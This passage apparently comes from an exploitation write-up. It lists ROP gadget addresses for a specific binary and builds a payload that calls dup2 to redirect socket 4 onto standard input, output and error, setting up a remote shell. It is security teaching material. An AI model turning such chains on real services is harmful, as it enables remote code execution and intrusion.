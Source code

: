 First argument is in `RDI`, therefore the socket number is `4`.

## ROP: Constants

Define constants we need for the ropchain:

```
# data

sh_addr = 0x400ed8


# gadgets

# 0x0000000000400c91: pop rax; ret;
pop_rax = 0x0000000000400c91

# 0x0000000000400eb3: pop rdi; ret;
pop_rdi = 0x0000000000400eb3

# 0x0000000000400eb1: pop rsi; pop r15; ret;
pop_rsi_r15 = 0x0000000000400eb1

# 0x0000000000400c93: syscall; ret;
syscall = 0x0000000000400c93
```


## Rop chain

```
# Start ROP chain

# dup2() syscall is 33

# dup2(4, 0)
payload += p64 ( pop_rax )
payload += p64 ( 33 )
payload += p64 ( pop_rdi )
payload += p64 ( 4 )
payload += p64 ( pop_rsi_r15)
payload += p64 ( 0 )
payload += p64 ( 0xdeadbeef1 )
payload += p64 ( syscall )


# dup2(4, 1)
payload += p64 ( pop_rax )
payload += p64 ( 33 )
payload += p64 ( pop_rdi )
payload += p64 ( 4 )
payload += p64 ( pop_rsi_r15)
payload += p64 ( 1 )
payload += p64 ( 0xdeadbeef2 )
payload += p64 ( syscall )


# dup2(4, 2)
payload += p64 ( pop_rax )
payload += p64 ( 33 )
payload += p64 ( pop_rdi )
payload += p64 ( 4 )
payload += p64 ( pop_rsi_r15)
payload += p64 ( 2 )
payload += p64 ( 0xdeadbeef3 )
```